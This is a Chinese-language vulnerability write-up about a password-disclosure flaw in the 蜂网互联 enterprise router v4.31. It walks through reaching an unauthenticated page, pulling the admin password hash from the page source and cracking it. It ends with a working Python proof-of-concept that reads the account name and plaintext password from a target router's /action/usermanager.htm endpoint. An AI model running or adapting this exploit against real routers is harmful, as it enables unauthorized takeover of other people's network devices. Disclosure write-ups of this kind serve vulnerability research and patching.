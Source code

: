 ## 前言  

蜂网互联企业级路由器v4.31密码泄露漏洞

## 漏洞简介  

蜂网互联企业级路由器v4.31密码泄露漏洞,密码`hash`直接存放在网页源码里

## 漏洞危害  

蜂网互联企业级路由器v4.31密码泄露,可直接接管路由器

## 影响范围  

### 产品  

> 蜂网互联企业级路由器

### 版本  

> 蜂网互联企业级路由器v4.31  

### 组件  

> 蜂网互联企业级路由器v4.31  

## 漏洞复现  

![](img/31.png)

访问/index.htm?PAGE=web链接，此链接未授权访问（里面的操作需要认证）：

![](img/32.png)

选择`web账号管理：
查看源代码即可获取到登录密码的哈希值：

![](img/33.png)

解密哈希即可获得密码：

![](img/34.png)

/login.html从此链接登录系统：

![](img/35.png)

## POC

```python
from optparse import OptionParser
import requests
import json

def getpass(target):
    r = requests.get( target + '/action/usermanager.htm')
    #return r.text
    s=json.loads(r.text)
    s=str(s['rows'])
    s=s.replace("[","")
    s=s.replace("]","")
    s=s.replace("\'","\"")
    s2=json.loads(s)
    print("账号:"+s2['user']+"，密码:"+s2['pwd']+"\n登录地址为:"+target+"/login.html")

def main():
    usage = "usage: python3 %prog -t 目标(格式：http://1.1.1.1)"
    parser = OptionParser(usage=usage)
    parser.add_option('-t', dest='target',type='string',help='目标ip')
    (options, args) = parser.parse_args()
    target = options.target
    if target:
        getpass(target)
if __name__ == "__main__":
    main()
```
![](img/36.png)